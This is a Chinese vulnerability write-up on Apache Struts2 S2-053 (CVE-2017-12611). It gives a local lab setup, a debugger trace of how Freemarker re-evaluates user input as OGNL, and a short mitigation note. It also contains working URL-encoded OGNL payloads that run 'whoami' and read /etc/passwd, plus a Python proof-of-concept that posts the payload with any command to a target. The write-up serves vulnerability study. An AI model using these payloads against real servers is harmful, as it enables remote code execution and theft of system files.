


# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第十五篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-053漏洞,又名CVE-2017-12611漏洞

> Struts2在使用Freemarker模板引擎时会允许解析OGNL表达式,用户输入的数据本身不会被当作OGNL表达式解析,但输入的数据被Freemarker模板引擎解析一次后变成了一个ONGL表达式,从而导致代码执行.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-053)

#### 漏洞成因

> Struts2在使用Freemarker模板引擎时会允许解析OGNL表达式,用户输入的数据本身不会被当作OGNL表达式解析,但输入的数据被Freemarker模板引擎解析一次后变成了一个ONGL表达式,从而导致代码执行.

#### 漏洞影响范围

> Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了.

### Payload

#### 执行命令

```java
%25%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'whoami').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%40org.apache.commons.io.IOUtils%40toString(%23process.getInputStream()))%7D%0A
```

#### 读取文件

```java
%25%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'cat%20%2fetc%2fpasswd').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%40org.apache.commons.io.IOUtils%40toString(%23process.getInputStream()))%7D%0A
```

### POC

```python
#!/usr/bin/env python3

import re
import urllib
import random
import string
import requests

class S2_053_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-053漏洞,又名CVE-2017-12611漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1',
            'date': '2017-09-06',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        
        self.capta = self.get_capta()
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
        }
        self.payload = '''%25%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'{cmd}').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%40org.apache.commons.io.IOUtils%40toString(%23process.getInputStream()))%7D%0A'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """
        try:
            self.check_payload = self.payload.format(cmd = urllib.parse.quote('echo ' + self.capta))
            post_data = 'message={data}'.format(data = self.check_payload)
            check_req = requests.post(self.url, headers = self.headers, data = post_data)
            check_str = re.sub('\n', '', check_req.text)
            result = re.findall('<input type="hidden" name="(.*?)" value="" id=".*?"/>', check_str)
            if self.capta in result[0]:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass
        
if  __name__ == "__main__":
    S2_053 = S2_053_BaseVerify('http://localhost:8080/s2_053_war_exploded/index.action')
    print(S2_053.run())
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.首先来看下struts.xml配置文件,配置了freemarker类型.


&emsp;&emsp;&emsp;&emsp;2.executeResult方法中createResult通过获取配置文件struts.xml中的result信息创建Result.由于配置的是<result name="success" type="freemarker">index.ftl</result>,所以创建的Result类型为FreemarkerResult.F7跟入execute方法：


&emsp;&emsp;&emsp;&emsp;3.conditionalParse方法在S2-016中见到过,该函数用于处理跳转地址location,会判断location是否有ognl表达式,有的话将会执行表达式.继续F7进入doExecute方法.


&emsp;&emsp;&emsp;&emsp;4.doExecute方法计算绝对路径absoluteLocation,然后getTemplate方法获取模板中的Freemarker标签,传入template.process方法解析.F7进入process方法,F7一直跟进下去,process->visit->accept


&emsp;&emsp;&emsp;&emsp;5.accept方法会遍历解析每一个Freemarker标签.循环至i=2时解析payload的标签<@s.hidden name="\${message}"><@s.hidden>时F7跟入env.visit,F7继续进入进入accept




&emsp;&emsp;&emsp;&emsp;6.accept方法遍历Freemarker标签属性.这里注意到\${message}在经过valueExp.eval方法后被替换成payload.怎么替换的这个过程有点长,为了完整,我把所有的调用栈都写出来了,F7一直往下走就行了.流程为eval->_eval->evalAndCoerceToString->renderElementToString->visit->accept->visit->accept->evalAndCoerceToString->eval->_eval->getVariable->getGlobalVariable->get


&emsp;&emsp;&emsp;&emsp;7.可看到get方法对\${message}表达式进行了一次解析,并将解析后的值放入Map.


&emsp;&emsp;&emsp;&emsp;8.返回到accept函数,可看到解析后的表达式.继续往下执行,F7进入visitAndTransform方法


&emsp;&emsp;&emsp;&emsp;9.F7继续进入afterBody方法,接下来还是F7一直跟进去.afterBody->end->evaluateParams->findString->findValue


&emsp;&emsp;&emsp;&emsp;10.又遇到了老朋友TextParseUtil.translateVariables方法进行ongl表达式处理.F7继续跟下去translateVariables,找到实现方法.




&emsp;&emsp;&emsp;&emsp;11.会首先进行parser.evalvate操作,这里创建TextParser对象并调用其evaluate,F7跟进去,在第56行执行表达式,F7跟进去,在第56行执行表达式,F7跟进去.返回到translateVariables方法,继续执行,会通过stack.findValue查找值栈,找到执行的结果.


## 漏洞修复

> 不要使用如下结构

```java
<@s.hidden name=”redirectUri” value=redirectUri />
<@s.hidden name=”redirectUri” value=”${redirectUri}” />
```

## 总结

> 挖Struts漏洞感觉深入跟进translateVariables方法就行了.

## 参考

> https://cwiki.apache.org/confluence/display/WW/S2-053

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-053/README.zh-cn.md

